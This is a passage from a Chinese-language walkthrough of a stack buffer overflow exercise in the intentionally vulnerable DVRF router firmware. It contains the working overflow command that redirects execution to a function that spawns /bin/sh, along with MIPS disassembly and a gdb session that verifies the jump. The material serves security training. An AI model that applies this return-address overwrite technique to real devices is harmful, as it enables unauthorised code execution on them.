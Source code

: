 ```
         0x00400954 &lt;+4&gt;:   addiu   gp,gp,-31872           Skip over
         0x00400958 &lt;+8&gt;:   addu    gp,gp,t9      */
         0x0040095c &lt;+12&gt;:  addiu   sp,sp,-32 // This is where we need to jump to
         0x00400960 &lt;+16&gt;:  sw  ra,28(sp)
         0x00400964 &lt;+20&gt;:  sw  s8,24(sp)
         0x00400968 &lt;+24&gt;:  move    s8,sp
         0x0040096c &lt;+28&gt;:  sw  gp,16(sp)

```

由于考虑到应用程序会崩溃，我们希望跳过修改$gp的指令。因此，我们将跳转到0x0040095c。

```
b1ack0wl@b1ack0wl-VM ~/DVRF/_DVRF_v03.bin.extracted/squashfs-root $ sudo chroot . ./qemu-mipsel-static -g 1234 ./pwnable/Intro/stack_bof_01 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7`echo -e '\x5c\x09\x40'`"
Welcome to the first BoF exercise!

You entered Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7   @
Try Again
Congrats! I will now execute /bin/sh
- b1ack0wl
```

甚至，我们可以设置一个断点，以确保我们跳转到函数内正确的偏移值处。

```
(gdb) target remote 127.0.0.1:1234
Remote debugging using 127.0.0.1:1234
warning: Unable to find dynamic linker breakpoint function.
GDB will be unable to debug shared library initializers
and track explicitly loaded dynamic code.
0x767b9a80 in ?? ()

(gdb) break *0x0040095c
Breakpoint 1 at 0x40095c

(gdb) c
Continuing.
warning: Could not load shared library symbols for 3 libraries, e.g. /lib/libgcc_s.so.1.
Use the "info sharedlibrary" command to see the complete listing.
Do you need "set solib-search-path" or "set sysroot"?

Breakpoint 1, 0x0040095c in dat_shell ()
(gdb) i r
          zero       at       v0       v1       a0       a1       a2       a3
 R0   00000000 fffffff8 00000041 767629b8 0000000a 767629c3 0000000b 00000000
            t0       t1       t2       t3       t4       t5       t6       t7
 R8   81010100 7efefeff 41366641 66413766 39664138 41306741 67413167 33674132
            s0       s1       s2       s3       s4       s5       s6       s7
 R16  00000000 00000000 00000000 ffffffff 76fff694 0040059c 00000002 004007e0
            t8       t9       k0       k1       gp       sp       s8       ra
 R24  766e65e0 766ef270 00000000 00000000 00448cd0 76fff5b8 37674136 0040095c
            sr       lo       hi      bad    cause       pc
      20000010 0000000a 00000000 00000000 00000000 0040095c
           fsr      fir
      00000000 00739300
(gdb) x/3i $pc
=&gt; 0x40095c &lt;dat_shell+12&gt;: addiu   sp,sp,-32
   0x400960 &lt;dat_shell+16&gt;: sw  ra,28(sp)
   0x400964 &lt;dat_shell+20&gt;: sw  s8,24(sp)
```
